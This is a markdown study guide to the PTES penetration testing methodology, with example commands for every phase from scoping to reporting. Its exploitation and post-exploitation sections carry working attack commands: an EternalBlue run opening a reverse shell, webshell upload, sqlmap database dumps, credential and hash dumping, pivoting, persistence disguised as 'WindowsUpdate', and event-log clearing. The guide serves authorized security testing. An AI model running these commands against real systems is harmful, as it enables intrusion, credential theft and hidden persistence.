



# PTES Framework — Penetration Testing Execution Standard

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

The **Penetration Testing Execution Standard (PTES)** is one of the most widely adopted frameworks in professional penetration testing. It provides a common language and structured approach that ensures consistency, completeness, and defensibility in security assessments. This note covers every phase in depth — what you do, what tools you use, and what you produce.

---

## Table of Contents
1. [What is PTES?](#1-what-is-ptes)
2. [PTES vs Ad-Hoc Testing](#2-ptes-vs-ad-hoc-testing)
3. [Full PTES Flow Diagram](#3-full-ptes-flow-diagram)
4. [Phase 1 — Pre-Engagement Interactions](#4-phase-1--pre-engagement-interactions)
5. [Phase 2 — Intelligence Gathering](#5-phase-2--intelligence-gathering)
6. [Phase 3 — Threat Modeling](#6-phase-3--threat-modeling)
7. [Phase 4 — Vulnerability Analysis](#7-phase-4--vulnerability-analysis)
8. [Phase 5 — Exploitation](#8-phase-5--exploitation)
9. [Phase 6 — Post Exploitation](#9-phase-6--post-exploitation)
10. [Phase 7 — Reporting](#10-phase-7--reporting)
11. [PTES Practical Checklist](#11-ptes-practical-checklist)

---

## 1. What is PTES?

**PTES (Penetration Testing Execution Standard)** is an open standard created by a group of information security practitioners to provide a baseline for penetration testing. It was developed to address the problem of inconsistent testing quality across the industry — different testers doing different things with no common framework.

### PTES Goals

- Provide a **common language** for pentest scope, methodology, and reporting
- Ensure **comprehensive coverage** — no important attack surface is skipped
- Define **minimum expectations** for each phase of an engagement
- Improve **quality and defensibility** of pentest reports
- Help **clients** know what a pentest should and shouldn't include

### Where to Find PTES

```
Official Documentation: http://www.pentest-standard.org
Status: Community-maintained; core document is stable
Related: PTES Technical Guidelines provide tool-level detail per phase
```

### PTES in the Industry

PTES is referenced in:
- Many professional pentest firm methodologies
- Training curricula (TCM Security, eLearnSecurity)
- Compliance documentation (to demonstrate structured methodology)
- Expert witness testimony in security litigation

---

## 2. PTES vs Ad-Hoc Testing

Without a framework, pentest quality varies dramatically between individuals and firms.

| Dimension | Ad-Hoc Testing | PTES-Guided Testing |
|-----------|---------------|---------------------|
| **Coverage** | Depends on individual's experience and biases | Systematic — all phases covered |
| **Repeatability** | Low — different results from different testers | High — consistent methodology |
| **Completeness** | Often misses threat modeling and post-exploitation | All 7 phases required |
| **Report quality** | Variable | Structured, defensible |
| **Client expectations** | Often misaligned | Pre-engagement interactions set expectations |
| **Legal protection** | Weak | Strong — documented authorization and scope |
| **Auditability** | Low | High — phase outputs are documented |

---

## 3. Full PTES Flow Diagram



---

## 4. Phase 1 — Pre-Engagement Interactions

### Purpose
Define everything that governs the engagement before any technical activity begins.

### Activities

```
1. Scope of Work (SOW) Definition
   - What systems, applications, and networks are in scope
   - What testing methods are authorized
   - What outcomes and deliverables are expected

2. Authorization Documentation
   - Master Service Agreement (MSA)
   - Non-Disclosure Agreement (NDA)
   - Rules of Engagement (ROE)
   - Written authorization letter

3. Kickoff Meeting
   - Technical briefing from client
   - Threat model discussion (who would attack this organization?)
   - Point-of-contact establishment
   - Emergency contact chain

4. Questionnaire Completion
   PTES recommends collecting:
   - Asset inventory (what systems exist)
   - Business context (what is the crown jewel data?)
   - Previous security testing history
   - Known technology stack
   - Compliance requirements (PCI-DSS, HIPAA, etc.)
   - Existing security controls (WAF, IDS/IPS, EDR)
```

### Pre-Engagement Questionnaire Sample

```
ORGANIZATION OVERVIEW:
1. What is the primary business function?
2. What are the crown jewel assets (most sensitive data/systems)?
3. Who would most likely want to attack your organization?
   a) Opportunistic cybercriminals
   b) Ransomware operators
   c) Nation-state actors
   d) Competitors
   e) Insider threats

TECHNICAL ENVIRONMENT:
4. List all IP ranges and domains in scope.
5. What is the technology stack? (OS, web frameworks, databases)
6. Are there cloud environments? (AWS/Azure/GCP — which?)
7. Is Active Directory used? Forest/domain structure?
8. What WAF/IDS/IPS/EDR is deployed?
9. Are there third-party integrations that border the scope?

CONSTRAINTS:
10. Are there systems that must NOT be tested due to criticality?
11. What is the change freeze period (no testing near deployments)?
12. Are there performance-sensitive systems where scan rate must be limited?
```

### Tools for Pre-Engagement

```bash
# Passive initial reconnaissance (part of scoping, before formal start)
amass enum -passive -d example.com -o initial_scope.txt
shodan count 'org:"Example Corporation"'
theHarvester -d example.com -b google -l 200 -f initial_harvest.html
```

### Outputs
- Signed SOW, NDA, ROE
- Scope document with explicit in/out-of-scope lists
- Emergency contact matrix
- Kickoff meeting notes

---

## 5. Phase 2 — Intelligence Gathering

### Purpose
Collect as much information about the target as possible using OSINT (passive) and active probing techniques to build a comprehensive picture of the attack surface.

### PTES Intelligence Gathering Categories

PTES organizes intelligence gathering into distinct intelligence types:

| Intelligence Type | What You're Looking For | Sources |
|------------------|------------------------|---------|
| **OSINT** | Public information about target | Google, LinkedIn, Shodan, Censys |
| **Organizational** | Company structure, employees, acquisitions | LinkedIn, Crunchbase, SEC filings |
| **Technical** | IPs, domains, technologies, services | DNS, Shodan, Nmap, certificate CT logs |
| **Physical** | Office locations, physical access points | Google Maps, satellite imagery, job postings |
| **Social** | Key employees, IT staff, executives | LinkedIn, Twitter/X, GitHub profiles |

### Intelligence Gathering Tools

```bash
# ─────────────────────────────────────────────────────
# ORGANIZATIONAL INTELLIGENCE
# ─────────────────────────────────────────────────────
# LinkedIn — manual research for:
# - IT staff (their LinkedIn often reveals tech stack)
# - Job postings (mention specific technologies)
# - Recent acquisitions (new IP ranges to discover)

# EDGAR (SEC) for public companies:
# https://www.sec.gov/cgi-bin/browse-edgar?action=getcompany&company=example
# Reveals: subsidiaries, acquisitions, key personnel

# ─────────────────────────────────────────────────────
# EMAIL AND EMPLOYEE ENUMERATION
# ─────────────────────────────────────────────────────
theHarvester -d example.com -b google,bing,linkedin,hunter,duckduckgo -l 500
# Hunter.io API: https://hunter.io/api-documentation
curl "https://api.hunter.io/v2/domain-search?domain=example.com&api_key=YOUR_KEY"

# Identify email format:
# found: john.smith@example.com, jane.doe@example.com
# Format: first.last@example.com
# → Generate list from LinkedIn names

# ─────────────────────────────────────────────────────
# SUBDOMAIN ENUMERATION
# ─────────────────────────────────────────────────────
# Passive (no scanning)
amass enum -passive -d example.com
subfinder -d example.com -all -recursive
assetfinder example.com

# Certificate Transparency logs (passive)
curl "https://crt.sh/?q=%.example.com&output=json" | \
  python3 -c "import sys,json; [print(x['name_value']) for x in json.load(sys.stdin)]" | \
  sort -u > ct_subdomains.txt

# Active DNS brute-force
gobuster dns -d example.com \
  -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt \
  -t 50 -o dns_brute.txt

# ─────────────────────────────────────────────────────
# NETWORK INTELLIGENCE
# ─────────────────────────────────────────────────────
# ASN lookup
whois -h whois.radb.net -- '-i origin AS12345' | grep route:
bgp.he.net                              # Visual ASN exploration

# Port scanning (active — begins when scope is confirmed)
nmap -sn 203.0.113.0/24 -oG hosts_up.gnmap   # Host discovery
grep "Up" hosts_up.gnmap | awk '{print $2}' > live_hosts.txt

# Full service scan of live hosts
nmap -iL live_hosts.txt -sV -sC -p- -T4 --open \
  -oA nmap_full --min-rate=1000

# ─────────────────────────────────────────────────────
# GITHUB / CODE REPOSITORY INTELLIGENCE
# ─────────────────────────────────────────────────────
# TruffleHog — search for secrets in git history
trufflehog github --org=examplecorp --only-verified
trufflehog git https://github.com/example/backend.git

# GitLeaks — detect hardcoded secrets
gitleaks detect --source /path/to/cloned/repo --report-format json

# Search GitHub manually:
# site:github.com "example.com" "api_key"
# site:github.com "example.com" "password" "staging"
```

### Intelligence Gathering Output

```
PTES Intelligence Report:
├── Organizational Summary
│   ├── Company size, industry, locations
│   ├── Key technical personnel identified
│   └── Recent changes (mergers, tech stack updates)
├── Email Format: first.last@example.com
├── Employees Identified: 23 (with LinkedIn profiles)
├── Domains: example.com + 4 subdomains of interest
├── IP Ranges: 203.0.113.0/24 (owned), 198.51.100.50-55 (cloud)
├── Technologies: Apache 2.4.51, PHP 7.4, jQuery 3.2.1, AWS S3
├── GitHub Findings: 2 repositories, 1 containing .env file in history
└── Physical: 2 office locations identified
```

---

## 6. Phase 3 — Threat Modeling

### Purpose
Identify and prioritize the most realistic threats against the target organization, informing which attack paths to focus testing on.

### Why Threat Modeling Matters

Without threat modeling, pentesters test everything equally — spending as much time on a low-probability attack path as on a high-probability one. Threat modeling ensures effort is aligned with realistic risks.

### PTES Threat Modeling Components



### Threat Actor Profiles

| Threat Actor | Motivation | TTPs | Resource Level | Likelihood for Most Orgs |
|-------------|-----------|------|----------------|--------------------------|
| **Script Kiddie** | Notoriety, curiosity | Known exploits, automated tools | Low | High (automated scanning) |
| **Cybercriminal (opportunistic)** | Financial | Phishing, ransomware, credential stuffing | Medium | High |
| **Ransomware Operator** | Financial | Phishing → AD compromise → mass encryption | Medium–High | Medium–High |
| **Nation-State APT** | Espionage, disruption | Custom 0-days, supply chain, long dwell time | Very High | Low (unless targeted industry) |
| **Competitor** | Industrial espionage | Spear phishing, insider recruitment | Medium | Low–Medium |
| **Insider Threat** | Financial, revenge | Direct DB access, data exfil | N/A (already inside) | Medium |
| **Hacktivist** | Ideological | DDoS, defacement, data leak | Low–Medium | Low |

### Threat Modeling with STRIDE

**STRIDE** is a threat modeling methodology mapping threat types to system components:

| Letter | Threat | Example |
|--------|--------|---------|
| **S** | Spoofing | Attacker impersonates admin user |
| **T** | Tampering | Attacker modifies data in transit |
| **R** | Repudiation | Actions performed without audit trail |
| **I** | Information Disclosure | PII exposed in API response |
| **D** | Denial of Service | Rate-unlimited API crashes service |
| **E** | Elevation of Privilege | Regular user accesses admin functions |

### Threat Modeling Output

```
Priority Attack Scenarios (from PTES Phase 3):

1. PRIORITY: HIGH
   Scenario: Ransomware operator via phishing → AD compromise
   Threat Actor: Criminal group (RaaS affiliate)
   Entry Point: Employee phishing email
   Target: Active Directory → Domain Admin → mass encryption
   Testing Focus: Phishing simulation, AD attack paths, lateral movement

2. PRIORITY: HIGH  
   Scenario: External attacker via web app → database access
   Threat Actor: Opportunistic criminal / data broker
   Entry Point: Public-facing web application
   Target: Customer PII database
   Testing Focus: OWASP Top 10 web app testing, database access

3. PRIORITY: MEDIUM
   Scenario: Supply chain compromise via development server
   Entry Point: dev.example.com (discovered in recon — no WAF)
   Target: Source code, credentials in dev environment
   Testing Focus: Dev server testing, secret scanning
```

---

## 7. Phase 4 — Vulnerability Analysis

### Purpose
Systematically identify vulnerabilities across all in-scope systems using both automated tools and manual analysis, then filter and validate findings.

### Vulnerability Analysis Workflow

```
1. AUTOMATED SCANNING
   Run tools against all in-scope targets
   → Generates raw finding list (high false positive rate)

2. MANUAL VERIFICATION
   Manually verify each automated finding
   → Eliminates false positives

3. MANUAL ANALYSIS
   Test attack vectors automated tools can't find
   → Business logic, authentication, session management

4. CVE CORRELATION
   Match discovered software versions to CVE database
   → Identifies known unpatched vulnerabilities

5. CONFIGURATION REVIEW
   Audit security settings, permissions, hardening state
   → Finds misconfigurations that tools miss

6. FINDING PRIORITIZATION
   Score with CVSS, apply business impact context
   → Prioritized vulnerability list for exploitation
```

### Automated Scanning Commands

```bash
# ─────────────────────────────────────────────────────
# NETWORK VULNERABILITY SCANNING
# ─────────────────────────────────────────────────────

# Nmap NSE vulnerability scripts
nmap --script vuln -p 80,443,22,21,3389,445 192.168.1.0/24

# OpenVAS (Greenbone Vulnerability Manager)
# Start services:
sudo gvm-start
# Access UI at: https://localhost:9392

# ─────────────────────────────────────────────────────
# SMB / WINDOWS SPECIFIC
# ─────────────────────────────────────────────────────
nmap --script smb-vuln-ms17-010,smb-vuln-ms08-067,smb-security-mode \
  192.168.1.0/24 -p 445

# Test for null session SMB
smbclient -L //192.168.1.10 -N
enum4linux -a 192.168.1.10 | tee enum4linux_output.txt

# ─────────────────────────────────────────────────────
# WEB APPLICATION VULNERABILITY ANALYSIS
# ─────────────────────────────────────────────────────

# Nikto
nikto -h https://app.example.com -ssl -Tuning x 2 3 5 6 7 8 -o nikto_report.html -Format html

# OWASP ZAP automated scan
docker run -t owasp/zap2docker-stable zap-baseline.py \
  -t https://app.example.com -r zap_report.html

# Nuclei — template-based vulnerability scanner
nuclei -u https://app.example.com -t /root/nuclei-templates/ \
  -severity critical,high,medium -o nuclei_findings.txt

# ─────────────────────────────────────────────────────
# SSL/TLS ANALYSIS
# ─────────────────────────────────────────────────────
testssl.sh --html testssl_report.html https://app.example.com
sslyze --regular app.example.com:443

# ─────────────────────────────────────────────────────
# CVE CORRELATION FROM NMAP OUTPUT
# ─────────────────────────────────────────────────────
# Parse nmap XML for versions
python3 -c "
import xml.etree.ElementTree as ET
tree = ET.parse('nmap_full.xml')
for host in tree.findall('host'):
    for port in host.findall('ports/port'):
        service = port.find('service')
        if service is not None:
            print(f\"{service.get('name')} {service.get('product')} {service.get('version')}\")
"
# Then search NVD/CVE database for each software/version combination
# https://nvd.nist.gov/vuln/search
```

### Manual Analysis Checklist

```
WEB APPLICATION MANUAL CHECKS:
□ HTTP security headers (CSP, HSTS, X-Frame-Options, etc.)
□ Authentication strength (password policy, MFA, lockout)
□ Session management (token entropy, expiry, HttpOnly/Secure flags)
□ Input validation (all forms, URL params, HTTP headers)
□ IDOR testing (change object IDs in all requests)
□ Business logic (price manipulation, workflow bypass)
□ File upload functionality (type restrictions, path traversal)
□ Error messages (information disclosure)
□ JavaScript files (API keys, endpoints, logic)
□ Hidden fields and cookies (sensitive data, manipulation)

NETWORK MANUAL CHECKS:
□ Default credentials on all network devices
□ Services accepting unencrypted communications
□ TLS/SSL protocol and cipher weaknesses
□ SNMP community strings (try 'public', 'private', 'community')
□ FTP anonymous access
□ SMB null sessions and share permissions
□ NFS exports listing
□ SMTP relay testing (open relay)
```

---

## 8. Phase 5 — Exploitation

### Purpose
Attempt to exploit discovered vulnerabilities to prove they are real and demonstrate impact.

### PTES Exploitation Principles

PTES emphasizes that exploitation should be:
- **Targeted** — based on findings from vulnerability analysis, not random
- **Measured** — use the minimum level of exploit needed to prove impact
- **Documented** — every exploit attempt logged with timestamp and result
- **Non-destructive** — never deploy wiper malware, encrypt real data, etc.

### Exploitation Priority Matrix

```
Exploit priority (based on business impact from threat model):

Priority 1 — Direct path to crown jewels:
  Example: SQLi on customer database application
  Example: RCE on public web server
  
Priority 2 — Privilege escalation / lateral movement enablers:
  Example: Local privilege escalation on compromised host
  Example: Password hash cracking for domain accounts
  
Priority 3 — Information gathering / credential harvesting:
  Example: SNMP public community string → network topology
  Example: FTP anonymous login → web configs with DB passwords

Priority 4 — Low-impact / informational:
  Example: Missing security headers
  Example: Outdated software (no public exploit available)
```

### Exploitation Commands and Techniques

```bash
# ─────────────────────────────────────────────────────
# METASPLOIT — CORE WORKFLOW
# ─────────────────────────────────────────────────────
msfconsole -q
msf6 > search type:exploit platform:windows cve:2021
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > info        # Read exploit details
msf6 exploit(ms17_010_eternalblue) > options      # Show required options

msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.10
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 10.10.10.5
msf6 exploit(ms17_010_eternalblue) > set LPORT 4444

msf6 exploit(ms17_010_eternalblue) > check       # Check if target is likely vulnerable
msf6 exploit(ms17_010_eternalblue) > exploit

# ─────────────────────────────────────────────────────
# WEB APPLICATION EXPLOITATION
# ─────────────────────────────────────────────────────

# SQLi — Manual (confirm before automated)
# 1. Find injection point
curl "https://app.example.com/product?id=1'" --silent | grep -i "error\|warning\|mysql\|sql"
# 2. Determine injection type (error-based, blind, time-based)
curl "https://app.example.com/product?id=1 AND SLEEP(5)--"  # Time: 5s delay = vulnerable
# 3. Automate extraction
sqlmap -u "https://app.example.com/product?id=1" \
  --dbms=mysql --dbs --tables --dump --batch \
  --random-agent --delay=1                     # Delay to avoid WAF detection

# RCE via file upload
# Upload PHP webshell (authorized testing only)
curl -X POST https://app.example.com/upload \
  -F "file=@/tmp/shell.php;type=image/jpeg" \
  -b "session=VALID_SESSION"
# Access webshell:
curl "https://app.example.com/uploads/shell.php?cmd=id"

# ─────────────────────────────────────────────────────
# PASSWORD ATTACKS
# ─────────────────────────────────────────────────────

# Offline hash cracking
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt    # NTLM
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
hashcat -m 3200 bcrypt_hashes.txt wordlist.txt                        # bcrypt (slow)

john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt   # JohnTheRipper

# ─────────────────────────────────────────────────────
# SEARCHSPLOIT — Exploit database searching
# ─────────────────────────────────────────────────────
searchsploit apache 2.4.51          # Search for Apache exploits
searchsploit -m 50477               # Copy exploit to current directory
searchsploit -x 50477               # Examine exploit code
```

---

## 9. Phase 6 — Post Exploitation

### Purpose
After gaining access, demonstrate the full extent of what an attacker could achieve — privilege escalation, lateral movement, persistence, and access to crown jewels.

### PTES Post-Exploitation Goals



### Post-Exploitation Techniques

```bash
# ─────────────────────────────────────────────────────
# METERPRETER POST-EXPLOITATION
# ─────────────────────────────────────────────────────
meterpreter > sysinfo                              # System information
meterpreter > getuid                               # Current user
meterpreter > getsystem                            # Attempt auto privesc
meterpreter > getpid                               # Current process ID
meterpreter > migrate 1234                         # Migrate to stable process (e.g., explorer.exe)
meterpreter > hashdump                             # Dump SAM hashes (requires SYSTEM)
meterpreter > run post/multi/recon/local_exploit_suggester  # Privesc suggestions
meterpreter > run post/windows/gather/enum_logged_on_users
meterpreter > run post/windows/gather/credentials/credential_collector
meterpreter > portfwd add -l 3306 -p 3306 -r 192.168.2.5   # Port forward to internal DB

# ─────────────────────────────────────────────────────
# PIVOT / LATERAL MOVEMENT
# ─────────────────────────────────────────────────────
# Establish SOCKS proxy through compromised host
# Metasploit:
msf6 > route add 192.168.2.0/24 SESSION_ID
msf6 > use auxiliary/server/socks_proxy
msf6 > set SRVPORT 1080; run -j

# Proxychains (after setting up SOCKS proxy)
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
proxychains nmap -sT -p 22,80,443,445 192.168.2.0/24

# SSH tunneling
ssh -L 3306:192.168.2.5:3306 -N user@pivot_host    # Local tunnel to DB

# ─────────────────────────────────────────────────────
# PERSISTENCE (demonstration — MUST be removed after)
# ─────────────────────────────────────────────────────
# Windows — registry run key (demo only)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
  /v "WindowsUpdate" /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f

# Linux — crontab (demo only)
(crontab -l; echo "* * * * * /tmp/beacon") | crontab -
# IMPORTANT: document and remove within 24 hours

# ─────────────────────────────────────────────────────
# CROWN JEWEL EVIDENCE COLLECTION
# ─────────────────────────────────────────────────────
# Database access proof (do NOT dump real PII)
# Show schema, not data:
mysql -h 192.168.2.5 -u root -p'FoundPassword' -e "SHOW DATABASES; USE customers; SHOW TABLES; DESCRIBE users;"
# Photograph schema, redact any actual data in report

# Domain Controller access:
net user /domain | head -20                        # Domain users count
impacket-secretsdump -just-dc-hashes DOMAIN/DA@dc.domain.local
# Proves complete domain compromise
```

### Cleanup Checklist

```bash
# MANDATORY cleanup after engagement

# Windows — remove artifacts:
# Remove registry run keys:
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /f
# Remove dropped files:
del C:\Windows\Temp\payload.exe
del C:\Users\victim\Downloads\winpeas.exe
# Clear specific event log entries? No — do NOT alter logs (discussed in ROE)

# Linux — remove artifacts:
crontab -r             # Remove crontab entries (verify first)
rm /tmp/linpeas.sh /tmp/beacon /tmp/shell
# Remove bash history entries:
history -c && history -w   # Clear history (only if authorized in ROE)

# Metasploit cleanup:
meterpreter > clearev        # Clear Windows event logs (only if authorized)
meterpreter > rm C:\\payload.exe
```

---

## 10. Phase 7 — Reporting

### Purpose
Translate technical findings into actionable business intelligence. The report is the primary deliverable and the lasting record of the engagement.

### PTES Report Components

```
PTES-REQUIRED REPORT SECTIONS:

1. EXECUTIVE SUMMARY
   - Overall risk assessment
   - Key business impacts in plain language
   - Top 3-5 priority remediation items
   - Comparison to previous testing (if applicable)

2. FINDINGS SUMMARY TABLE
   | # | Title | Severity | CVSS | System | Status |
   
3. DETAILED TECHNICAL FINDINGS
   For each finding (PTES minimum):
   a) Finding title
   b) Risk level (Critical/High/Medium/Low/Info)
   c) CVSS v3.1 base score and vector
   d) Affected systems
   e) Description — what is the vulnerability?
   f) Evidence — screenshot + command/response
   g) Business impact — what could happen?
   h) Reproduction steps — step-by-step PoC
   i) Remediation — specific actionable steps
   j) References — CVE, CWE, OWASP, vendor advisory

4. ATTACK PATH NARRATIVE
   Story-based description of the full attack chain
   from initial access to maximum impact

5. TECHNICAL APPENDICES
   A. Scope document
   B. Methodology references
   C. Raw tool output
   D. Additional screenshots
```

### Sample Finding Entry

```
FINDING: SQL Injection in Product Search

Risk Level:    Critical
CVSS v3.1:     9.8
CVSS Vector:   AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Affected:      https://app.example.com/search?q=
Discovery:     2024-01-16 11:34 UTC

Description:
  The product search parameter is vulnerable to SQL injection. An 
  unauthenticated attacker can extract the entire database, modify 
  or delete data, and potentially achieve remote code execution via 
  SQL's xp_cmdshell or INTO OUTFILE functionality.

Evidence:
  Request:
    GET /search?q=test' AND SLEEP(5)-- HTTP/1.1
    Host: app.example.com

  Response: [5.1 second delay — confirms time-based blind SQLi]

  Database enumeration:
    $ sqlmap -u "https://app.example.com/search?q=test" --dbs
    [+] Found databases: information_schema, customers, billing, admin

Business Impact:
  Complete exposure of customer PII (names, email, addresses) for 
  approximately 150,000 customer records. Financial and billing data 
  may be accessible. This finding represents a GDPR Article 32 failure 
  and would require mandatory breach notification if exploited.

Reproduction Steps:
  1. Navigate to https://app.example.com/search?q=test%27
  2. Observe database error message (confirms injection)
  3. Run: sqlmap -u "https://app.example.com/search?q=test" --dbs
  4. Observe database names in output

Remediation:
  Immediate: Implement parameterized queries (prepared statements).
  Example fix (PHP):
    $stmt = $pdo->prepare("SELECT * FROM products WHERE name LIKE ?");
    $stmt->execute(["%{$query}%"]);
  Additional: Deploy WAF rule to block SQLi patterns; enable database 
  activity monitoring; conduct code review of all database queries.

References:
  CWE-89: SQL Injection
  OWASP A03:2021 Injection
  OWASP WSTG-INPVAL-05
```

---

## 11. PTES Practical Checklist

Use this checklist during engagements to ensure PTES compliance:

```
PHASE 1 — PRE-ENGAGEMENT:
□ Scope document signed
□ Authorization/ROE signed
□ NDA executed
□ Emergency contacts collected
□ Testing window agreed
□ Threat model session completed

PHASE 2 — INTELLIGENCE GATHERING:
□ OSINT collection completed (email, employees, subdomains)
□ DNS analysis performed
□ Port scan completed on all in-scope hosts
□ Web tech fingerprinting completed
□ GitHub/code repo search performed
□ Attack surface map documented

PHASE 3 — THREAT MODELING:
□ Assets identified and ranked by sensitivity
□ Threat actor profiles created
□ Attack scenarios defined and prioritized
□ Testing focus aligned with priority scenarios

PHASE 4 — VULNERABILITY ANALYSIS:
□ Automated scanning completed (Nessus/OpenVAS/Nuclei)
□ All automated findings manually verified
□ Manual testing completed (web app, network, etc.)
□ All findings scored with CVSS v3.1
□ False positives removed

PHASE 5 — EXPLOITATION:
□ All confirmed vulnerabilities exploitation attempted
□ Evidence collected for each successful exploit
□ All actions timestamped and logged
□ No out-of-scope systems touched
□ Critical findings escalated to client immediately

PHASE 6 — POST-EXPLOITATION:
□ Privilege escalation attempted from all footholds
□ Lateral movement from each compromised host
□ Crown jewel access demonstrated (if achieved)
□ Persistence demonstrated (if in scope)
□ All persistence mechanisms documented
□ ALL cleanup completed (files, registry, crons)

PHASE 7 — REPORTING:
□ Executive summary written (non-technical)
□ All findings documented with CVSS and evidence
□ Attack path narrative written
□ Remediation guidance provided for each finding
□ Report reviewed for accuracy
□ Report delivered via secure channel
```

---

> **Note:** PTES is a minimum standard, not a ceiling. High-quality engagements often go deeper — advanced post-exploitation, custom exploit development, and tailored attack scenarios exceed PTES requirements and add significant value.

> **Warning:** Phase ordering matters but is not rigid. Findings in Phase 4 may require returning to Phase 2 for additional reconnaissance. The model is iterative in practice.
